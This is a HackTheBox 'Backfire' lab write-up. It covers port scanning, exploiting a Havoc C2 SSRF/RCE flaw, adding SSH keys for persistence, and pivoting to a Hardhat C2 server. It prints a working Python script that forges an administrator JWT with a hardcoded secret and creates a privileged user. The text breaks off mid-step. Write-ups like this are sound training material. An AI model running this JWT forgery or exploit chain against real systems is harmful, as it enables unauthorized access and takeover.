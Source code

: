 ---------------

### CTF-: HackTheBox
### LAB-: Backfire

---------------

![image](https://github.com/user-attachments/assets/7aba93cb-a109-4bda-9d07-0c60187b8e32)

---------------

- Rustscan's output-:

```bash
❯ rustscan -a backfire.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.49:22
Open 10.10.11.49:443
Open 10.10.11.49:8000
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 08:38 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:38
Completed NSE at 08:38, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:38                                                                                                                            
Completed NSE at 08:38, 0.00s elapsed                                                                                                              
NSE: Starting runlevel 3 (of 3) scan.                                                                                                              
Initiating NSE at 08:38                                                                                                                            
Completed NSE at 08:38, 0.00s elapsed                                                                                                              
Initiating Connect Scan at 08:38
Scanning backfire.htb (10.10.11.49) [3 ports]
Discovered open port 22/tcp on 10.10.11.49
Discovered open port 443/tcp on 10.10.11.49
Discovered open port 8000/tcp on 10.10.11.49
Completed Connect Scan at 08:38, 0.21s elapsed (3 total ports)
Initiating Service scan at 08:38
Scanning 3 services on backfire.htb (10.10.11.49)
Completed Service scan at 08:38, 13.11s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.11.49.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:38
Completed NSE at 08:38, 27.92s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:38
Completed NSE at 08:38, 3.80s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:38
Completed NSE at 08:38, 0.00s elapsed
Nmap scan report for backfire.htb (10.10.11.49)
Host is up, received user-set (0.20s latency).
Scanned at 2025-03-17 08:38:09 WAT for 45s

PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 7d:6b:ba:b6:25:48:77:ac:3a:a2:ef:ae:f5:1d:98:c4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuxaL9aCVxiQGLRxQPezW3dkgouskvb/BcBJR16VYjHElq7F8C2ByzUTNr0OMeiwft8X5vJaD9GBqoEul4D1QE=
|   256 be:f3:27:9e:c6:d6:29:27:7b:98:18:91:4e:97:25:99 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2oT7Hn4aUiSdg4vO9rJIbVSVKcOVKozd838ZStpwj8
443/tcp  open  ssl/http syn-ack nginx 1.22.1
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET POST
|_http-server-header: nginx/1.22.1
| ssl-cert: Subject: commonName=127.0.0.1/stateOrProvinceName=Connecticut/countryName=US/localityName=New Haven/streetAddress=/postalCode=5932
| Subject Alternative Name: IP Address:127.0.0.1
| Issuer: commonName=127.0.0.1/stateOrProvinceName=Connecticut/countryName=US/localityName=New Haven/streetAddress=/postalCode=5932
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-01-07T11:01:05
| Not valid after:  2028-01-07T11:01:05
| MD5:   b22f:704b:40e4:ca3b:7041:7c0f:a0a4:b252
| SHA-1: 25f2:1fa8:8817:52db:be5b:276e:c47d:8278:2898:2863
| -----BEGIN CERTIFICATE-----
| MIIDxjCCAq6gAwIBAgIQXxBfoPPgreKo23ihIct2nDANBgkqhkiG9w0BAQsFADBl
| MQswCQYDVQQGEwJVUzEUMBIGA1UECBMLQ29ubmVjdGljdXQxEjAQBgNVBAcTCU5l
| dyBIYXZlbjEJMAcGA1UECRMAMQ0wCwYDVQQREwQ1OTMyMRIwEAYDVQQDEwkxMjcu
| MC4wLjEwHhcNMjUwMTA3MTEwMTA1WhcNMjgwMTA3MTEwMTA1WjBlMQswCQYDVQQG
| EwJVUzEUMBIGA1UECBMLQ29ubmVjdGljdXQxEjAQBgNVBAcTCU5ldyBIYXZlbjEJ
| MAcGA1UECRMAMQ0wCwYDVQQREwQ1OTMyMRIwEAYDVQQDEwkxMjcuMC4wLjEwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCcb3mxIvYVAKjUJg+vHxeMJ3PD
| MhXt0hKdHai/iGDylZVkd/Ext3fFWAjWIYUPmvyl1KX8s7RWkjUgNfs7NNFz23At
| wfWStZiUXFQuUNIrsMGff7GjrIKcAmLkAuFmt25br/Y//Y8SC8IsnBxneTd4DBbO
| 8/So7zi86wI3ZZUNJeGo0eXK87dF/PikMHfAc672BVnCKIAt9/wk3FjVeoD9iNZR
| MrpM42c0qRnsZNOBXo6RWVnkjaw1CgO4idSNm4osmk2zXTAjeCfrBdDfAXsEq8So
| I/mwl2MjTdqvuImVr95PI6rb2+4bXfSAZeyEY2xpPGz57ZuFXH3cLxmLsgOJAgMB
| AAGjcjBwMA4GA1UdDwEB/wQEAwICpDAdBgNVHSUEFjAUBggrBgEFBQcDAQYIKwYB
| BQUHAwIwDwYDVR0TAQH/BAUwAwEB/zAdBgNVHQ4EFgQUJXDEoW+wSe+Ptr+R4wBv
| GLenLW8wDwYDVR0RBAgwBocEfwAAATANBgkqhkiG9w0BAQsFAAOCAQEAaznrYizH
| 1AbCdZT8mftAn8JNcVwizyGTpuJs+otSZNpfoNAqMF5tQZvgpPix54XVGCZb5v2G
| p/8kfYjXcmFZXCEyVNrudH+Yr0ZHQU+KLOZ+4l2dsBEZKyD/C5aqxWOb+QBytgUU
| 6oaAiUXfj9Y7nzBp1vpz8teXM9dLJX+xGM2KZ+9ocw/k9Oxf73yTjEuIbme/K4Mr
| IIyDRdmr56Gk504T4GKERcd6kjikfCZLrpu75Qw4M1D0LSqNaS3BzQcRLsnYobqn
| BErrdtvyJEEZbNAMtxel2+SBvwffuWJOTOTIAx+gE4omfMc1axOOYet6p0JBdiDe
| PQGP5TKPHe19cQ==
|_-----END CERTIFICATE-----
|_http-title: 404 Not Found
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
8000/tcp open  http     syn-ack nginx 1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.22.1
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1559  17-Dec-2024 12:31  disable_tls.patch
| 875   17-Dec-2024 12:34  havoc.yaotl
|_
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We have open ports `22`,`443` and `8000`.
- In port `8000` which is running a webserver ,I noticed these files `disable_tls.patch` and `havoc.yaotl`.The server is hosting a C2 Havoc server.

![image](https://github.com/user-attachments/assets/eff26c17-ec1b-4ae8-9b3f-13b4516c2011)

- I discovered credentials for 2 users in one of the files.

![image](https://github.com/user-attachments/assets/4c30f546-7356-4b21-9af6-0ae3c6beca0d)

- Havoc is vulnerable to SSRF and RCE as explained [here](https://github.com/kit4py/CVE-2024-41570).

![image](https://github.com/user-attachments/assets/3154a2fb-6420-48d3-a44f-cf188ba3dedf)

- Running the exploit-:

![image](https://github.com/user-attachments/assets/49ad1f30-0e60-4e99-a831-50d68ec83f82)

- To maintain access,we have to copy our public key to the current user's ssh authorized keys.This will allow us login without a password.

![image](https://github.com/user-attachments/assets/4f321e43-dfa0-46ea-bfcf-cf5e35a17ab2)

- User Ilya

![image](https://github.com/user-attachments/assets/9a0184d0-239c-4c65-9b40-b67c2a683a48)


--------------

### Pivoting

--------------


- We have another user `sergej` on the server.

![image](https://github.com/user-attachments/assets/a2b793e4-4a1d-49a7-9ec2-fcdd341b4ff6)

- I ran `netstat -antp` and noticed 2 internal services on port `5000` and `7096`.

![image](https://github.com/user-attachments/assets/f674b09c-e6a8-46df-bc63-91250d7f4a32)

- I also found another note by user `Ilya` stating that user `sergej` installed the `Hardhat c2 framework`.

![image](https://github.com/user-attachments/assets/49ff5a1a-5606-4129-ad2b-0be0a93d9813)

- I discovered an [article](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7) explaining 0days in the Hardhat c2.One allows us to forge the admin jwt token and create a user with administrative privileges.Script-:

```python3
#! /usr/bin/env python3
# @author Siam Thanat Hack Co., Ltd. (STHh)
import jwt
import datetime
import uuid
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

rhost = '127.0.0.1:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json",
  "Host": "127.0.0.1:7096"
}
burp0_json = {
  "password": "sensei",
  "role": "TeamLead",
  "username": "sensei"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

- The next step is to portforward both ports with ssh.

![image](https://github.com/user-attachments/assets/0bf497f7-6895-405d-812c-4875e858eba3)

- I created a user `sensei` with the script.

![image](https://github.com/user-attachments/assets/9140d614-ddbc-4925-b752-cf6527b07df8)

- C2 server access

![image](https://github.com/user-attachments/assets/7f3a1eb3-f0ea-44af-bae3-a44be63e96f8)

- The server has shell access,we can run commands on the server with it.The `/ImplantInteract` is responsible for it.

![image](https://github.com/user-attachments/assets/776ce9b1-6c3c-4c6f-b5d7-049c43af575d)

- Spawn a shell and copy your 














